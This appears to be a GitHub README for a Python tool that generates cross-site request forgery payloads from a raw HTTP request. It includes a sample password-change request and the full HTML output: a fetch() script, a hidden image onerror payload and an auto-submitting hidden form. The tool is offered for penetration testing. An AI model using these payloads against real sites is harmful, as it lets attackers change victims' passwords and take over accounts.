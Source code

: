 # csrf-payload-generator
CSRF Payload Generator A powerful and flexible Cross-Site Request Forgery (CSRF) Payload Generator designed for security enthusiasts and penetration testers. This tool automates the generation of CSRF attack payloads based on HTTP requests.

What is CSRF ? 
https://portswigger.net/web-security/csrf#what-is-csrf 

Features
* Supports Multiple Payload Methods:
    
    - fetch: Uses the Fetch API to execute CSRF requests programmatically.
    - onerror: Leverages the onerror event of an empty image tag for CSRF execution.
    - form: Auto-submitting HTML forms for CSRF attacks.

* HTML Output:
    - Generates an easy-to-use HTML file containing all the CSRF payloads for testing.

* How It Works
    - Input: Supply a raw HTTP request 
    - Process: The tool parses the HTTP request, extracts relevant data, and generates payloads.
    - Output: Produces an HTML file containing the generated payloads for execution.

* Usage
  
  1 - Clone the repository:
  
---
  ```
git clone https://github.com/Abutalib-Zarban/csrf-payload-generator.git

```
 2 - Navigate to the directory:
  ```
cd csrf-payload-generator

```

 3 - Run the script with a  HTTP request file:

```
python3 csrf_generator.py request.txt


```

4- Select the desired CSRF payload method:

    
    1: fetch
    2: onerror
    3: form
    4: All methods
View the output in the csrf_payloads.html file.


* Requirements
    - Python 3.x: The script is written in Python and requires Python 3.x.

 
---------------------------
* Request sample :
```
  POST /user/change-password HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Cookie: sessionid=abcd1234efgh5678ijkl9012mnop3456

new_password=newpassword456
```

----------------------------
* Tool Output :
    - If all Methods selected 
  
```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Payloads</title>
</head>
<body>
    <h1>Generated CSRF Payloads</h1>

    <h2>Fetch Payload</h2>
    <div>
        <pre>
<script>
fetch("http://www.example.com/user/change-password", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "new_password=newpassword456xyy"
});
</script>
</pre>
    </div>
    <hr>

    <h2>Onerror Payload</h2>
    <div>
        <pre>
<img src="" onerror="fetch('http://www.example.com/user/change-password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    }, body: 'new_password=newpassword456xyy'
})" style="display:none;">
</pre>
    </div>
    <hr>

    <h2>Form Payload</h2>
    <div>
        <pre>
<form action="http://www.example.com/user/change-password" method="POST" target="hidden_iframe">
    <input type="hidden" name="new_password" value="newpassword456xyy">
    <script>
        document.forms[0].submit();
    </script>
</form>
<iframe name="hidden_iframe" style="display:none;"></iframe>
</pre>
    </div>
    <hr>

</body>
</html>

```

------
* Disclaimer
This tool is intended for educational purposes and authorized security testing only. Misuse of this tool may result in legal consequences. Always obtain proper permission before conducting any tests.
 

